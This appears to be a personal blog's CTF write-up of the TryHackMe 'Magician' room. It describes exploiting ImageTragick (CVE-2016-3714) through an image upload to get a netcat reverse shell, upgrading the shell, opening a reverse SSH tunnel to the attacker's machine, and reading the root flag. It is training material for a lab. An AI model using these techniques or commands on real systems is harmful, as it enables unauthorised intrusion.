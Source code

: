 ```yaml
---
weight: 3
title: "My First CTF writeup"
date: 2021-03-03T21:57:40+08:00
lastmod: 2021-03-04T16:45:40+08:00
description: "This is my first TryHackMe writeup"

title: My first CTF writeup
featuredImage: tryhackmebanner.jpg
hiddenfeaturedImage: true

tags: ["TryHackMe", "CTF"]
categories: ["Writeups"]

lightgallery: false
summary: TryHackMe's CTF __"Magician"__. Joining this room on the TryHackMe platform, it tells us that this box is apparently a webserver that hosts a vulnerable website which lets you convert image file formats.
---
```


# {{< figure src="/magician/banner.jpg" title="This magical website lets you convert image file formats" >}}

## Summary

1. Recon with nmap & Enumerate the services. FTP on port 21, HTTP-Proxy on port 8080 and HTTP on port 8081.

2. The HTTP service on port 8081 allows image upload and exploiting the “ImageTragick” vulnerability . 

3. Initial foothold by exploiting ImageTragick Remote Code Execution (CVE-2016-3714).

4. Upload the payload, spawn a shell and get our first user flag.

5. Linux enumeration reveals that port 6666 (Magic Cat Listener) is listening on target localhost.

6. We create a tunnel with ssh, and proxy our traffic through port 6666 on our Kali machine which lets us talk to the localhost service on the victim machine.

7. The local service allows for LFI, which lets us read root.txt and get our last flag.

## Scanning

We start with our standard nmap scan:

{{< figure src="/magician/nmap.jpg" title="" >}}

There is an FTP server running on port 21 and a couple of web services on ports 8080 and 8081.
Nmap does not tell us anything about anonymous login, and I could confirm this with a manual test.

## Enumeration

Let's go ahead and visit port 8080:

{{< figure src="/magician/error.jpg" title="" >}}

An error message that does not give us much, however it tells us that its running an application that is Java based. A quick google search on the error message suggests
that it's an open source app called “Spring" which is a framework for the Java platform.

Let's run GoBuster in directory enumeration mode to see if there may be anything of interest here.
   
{{< figure src="/magician/gobuster.jpg" title="" >}}

Interesting, there are some directories here. When we go to the /files directory we can see this:

{{< figure src="/magician/dir_listing.jpg" title="" >}}

It looks like a listing, perhaps of the files uploaded through an upload form.

Navigating to the web service on port 8081 we are greeted with a page that allows us to **upload images**:

{{< figure src="/magician/uploadform.jpg" title="" >}}

After uploading a .png file I found the image file just like I thought; in the **directory listing** on http://magician:8080/files

{{< figure src="/magician/pingu.jpg" title="" >}}

Perhaps we can exploit this and get a shell on the webserver?

We can take a look at the web request with Burp to find out more.

{{< figure src="/magician/burp.jpg" title="" >}}

We can see here that theres a **POST** request to the webapp on port 8080.
Probably the back-end app does the conversion from .PNG to .JPG before it gets saved to the /files directory.
This reminds me of the “Image Tragick” exploit where web services used the program ImageMagick to process images.
One of the vulnerabilities could lead to remote code execution (RCE). _CVE-2016–3714._

Lets try and see if my theory is right.

## Gaining access

#### PayloadsALLTheThings got us covered. 
We download the payload **“imagetragik1_payload_url_curl.png” and “imagetragik1_payload_imageover_reverse_shell_netcat_fifo.png"** .

From https://github.com/swisskyrepo/PayloadsAllTheThings

I change the IP address in the payload to my Kali machine and upload the “imagetragik1_payload_url_curl.png” just to check if the vulnerability is present.
Before I browse to the uploaded file and execute the payload, I start my netcat listener:

{{< figure src="/magician/imgtragik_test.jpg" title="" >}}

Yes! We see that it is working and we get a curl request from the victim machine!
Now that we have confirmed that the exploit works, we can do the same to get a reverse shell.

Using the payload **“imagetragik1_payload_imageover_reverse_shell_netcat_fifo.png”** and inserting our Kali machine IP in the payload, we upload the file.
Again, before executing it we start our netcat listener.

{{< figure src="/magician/nc_shell.jpg" title="" >}}

Our reverse netcat session is successful!

We can see that we got a low-privilege user shell. 
The first thing I usually do is to upgrade this crude shell to an interactive shell in 3 steps:



1. The first thing to do is use python3 -c 'import pty;pty.spawn("/bin/bash")' ', which uses Python to spawn a better-featured bash shell. At this point, our shell will look a bit prettier, but we still won’t be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
 
2. Step two is:
 export TERM=xterm – this will give us access to term commands such as clear.

     
3. Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg.This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
^Z
stty raw -echo; fg
```
{{< figure src="/magician/pty_upgrade.jpg" title="" >}}

With that out of the way, let's find the **first** flag! 
We CD into our user “magician” home directory, list the files and cat out the contents of user.txt:
{{< figure src="/magician/1stflag.jpg" title="" >}}
Our next step is to do some more enumeration to become root or find the root flag.

## Privilege Escalation

Theres another interesting file in magician's home directory **“the_magic_continues”**.
Lets take a look at it...


{{< figure src="/magician/enumerate1.jpg" title="Locally listening cat" >}}

The words that stand out to me is “locally listening cat”. I suspect that theres a service listening on a localhost port.
Running _netstat -plunt_ confirms this.

{{< figure src="/magician/listeningservice.jpg" title="" >}}

Port 6666 on localhost looks interesting. To access this we need to port forward and use a tunnel connection back to our Kali host. There are many ways to create a tunnel, and for
this I will use the SSH method.

On our Kali machine:
```bash
sudo service ssh start
```
On our victim machine:
```bash
ssh -R 6666:localhost:6666 kali@10.14.6.6
```
{{< figure src="/magician/sshtunnel.jpg" title="" >}}

Now we should see that we have a service on port 6666 listening on our Kali machine and we have established the tunnel.
{{< figure src="/magician/sshtunnel2.jpg" title="" >}}

What we need to do now is just proxy our webtraffic through the 6666 port on our Kali machine and it will send a HTTP GET request to the service that is listening locally on the “magician” box.

For this I use FoxyProxy:

{{< figure src="/magician/foxyproxy.jpg" title="" >}}
And head on over to http://localhost to reach the service that is listening on the victim machine localhost:6666.
{{< figure src="/magician/magiccatservice.jpg" title="The Magic Cat" >}}

What do we have here? Looks like we can run commands. Lets try and get the **root** flag!
{{< figure src="/magician/commands.jpg" title="" >}}

Looks like its encoded in HEX. We use CyberChef to decode it.

{{< figure src="/magician/cyberchef.jpg" title="" >}}

And we submit the root flag to complete the room!
We could probably try to get a root shell as well, but this is out of the scope in this room.

## Conclusion

This was a fun and easy beginners room. I have never actually used the ImageTragick exploit before in any previous CTFs. It was a cool little trick and something I will definitely take note of and keep in the back of my head for future encounters!